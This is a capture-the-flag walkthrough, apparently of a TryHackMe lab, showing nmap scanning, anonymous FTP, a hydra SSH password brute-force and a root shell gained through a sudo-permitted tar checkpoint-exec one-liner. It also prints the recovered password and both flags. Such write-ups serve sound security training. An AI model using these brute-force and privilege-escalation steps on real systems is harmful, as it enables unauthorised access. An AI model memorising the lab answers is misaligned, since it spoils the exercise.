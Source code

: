 ### Bounty Hacker

#### Living up to the title.

You were boasting on and on about your elite hacker skills in the bar and a few Bounty Hunters decided they'd take you up on claims! Prove your status is more than just a few glasses at the bar. I sense bell peppers & beef in your future! 

Deploy the machine.

Find open ports on the machine

Who wrote the task list?
- lin

```
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/Bounty_Hacker]
└─$ nmap -sC -sV -oN nmap_results.txt 10.10.110.227
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-19 05:15 EDT
Nmap scan report for 10.10.110.227
Host is up (0.61s latency).
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.4.73.167
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 125.25 seconds

```

Upon checking the ftp server, we have listed 2 files below:

```
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/Bounty_Hacker]
└─$ ftp 10.10.110.227
Connected to 10.10.110.227.
220 (vsFTPd 3.0.3)
Name (10.10.110.227:kali): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||32186|)
ftp: Can't connect to `10.10.110.227:32186': Connection timed out
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
ftp> get task.txt
local: task.txt remote: task.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
100% |*************************************************************************|    68      477.74 KiB/s    00:00 ETA
226 Transfer complete.
68 bytes received in 00:00 (0.11 KiB/s)
ftp> get locks.txt
local: locks.txt remote: locks.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
100% |*************************************************************************|   418       10.39 KiB/s    00:00 ETA
226 Transfer complete.
418 bytes received in 00:00 (0.65 KiB/s)
ftp>
```

On task.txt, we can see the user who wrote the file:

![[Pasted image 20220819053322.png]]

On locks.txt, we can also see that it is a wordlist for potential bruteforce attack.

Webpage at port 80:

![[Pasted image 20220819053420.png]]

After enumerating those things, we can now proceed with brutefoce `lin` using hydra and the locks.txt wordlist:

```
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/Bounty_Hacker]
└─$ hydra -l lin -P ~/ken/MoonShine/CTF/Bounty_Hacker/locks.txt 10.10.110.227 ssh -t 4
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-08-19 05:27:00
[DATA] max 4 tasks per 1 server, overall 4 tasks, 26 login tries (l:1/p:26), ~7 tries per task
[DATA] attacking ssh://10.10.110.227:22/
[22][ssh] host: 10.10.110.227   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-08-19 05:27:17
                                                                                                                      
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/Bounty_Hacker]
└─$ 

```


What is the user's password:
- RedDr4gonSynd1cat3

Login to lin using ssh to get the user.txt flag:

```

┌──(kali㉿kali)-[~]
└─$ ssh lin@10.10.110.227
The authenticity of host '10.10.110.227 (10.10.110.227)' can't be established.
ED25519 key fingerprint is SHA256:Y140oz+ukdhfyG8/c5KvqKdvm+Kl+gLSvokSys7SgPU.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.110.227' (ED25519) to the list of known hosts.
lin@10.10.110.227's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt 
THM{CR1M3_SyNd1C4T3}


```

lastly, upon checking, we can see that user lin has privileges for root using the /bin/tar below:

```
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
lin@bountyhacker:~/Desktop$
```

Looking at GTFObins documentation, we can see that tar can be exploited if user has sudo previleges (on sudo -l)

![[Pasted image 20220819053759.png]]

We can now perform the attack and capture the flag:

```
$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
root
# cd /root
# cat root/txt
cat: root/txt: No such file or directory
# cat root.txt
THM{80UN7Y_h4cK3r}
# 

```

END

